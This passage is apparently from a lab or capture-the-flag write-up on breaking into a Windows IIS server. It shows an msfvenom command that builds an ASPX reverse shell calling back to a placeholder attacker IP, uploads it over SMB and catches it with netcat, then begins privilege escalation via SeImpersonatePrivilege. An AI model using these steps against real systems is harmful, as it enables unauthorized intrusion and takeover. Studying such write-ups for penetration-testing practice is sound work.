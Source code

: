 ![Untitled 2](https://github.com/user-attachments/assets/0b22b5ea-fe1c-4f79-bff0-c8165baf32cc)

- We have idea that we will add the reverse shell and run the Path URL to catch the listen. After that we can gain access initial the web server.
- Firstly, we generate the shell by msfvenom and format we choose is .aspx ( This is extension design for framework [ASP.NET](http://ASP.NET)  so that will be stable with IIS server)

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP-Machine> lport=1234 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3418 bytes
Saved as: shell.aspx
```

- Secondly, we will upload shell into SMB shares through uploading SMBclient `put shell.aspx`

![Untitled 3](https://github.com/user-attachments/assets/2ddf831c-c87a-4663-a84b-496f4c61985d)

- Finally, run Path URL with shell and catch the listen with netcat.

![Untitled 4](https://github.com/user-attachments/assets/b173748b-c1f9-4b67-a6e0-e1aa23fe45fe)

![Untitled 5](https://github.com/user-attachments/assets/e37be3be-c1d3-4977-b9c7-8baba7c64af9)

# Privilege Escalation

- View all priveleges

```bash
c:\Users\Bob\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

—> SeImpersonatePrivilege is Enabled so we can abuse it to escalate ‘Admin’.

- Let research some info about SeImpersonatePrivilege to find method to abuse it.
- We can check in link: https://github.com/gtworek/Priv2Admin
- 
![Untitled 6](https://github.com/user-attachments/assets/e8ae5b1d-3760-46a4-9511-d13dfe111928)
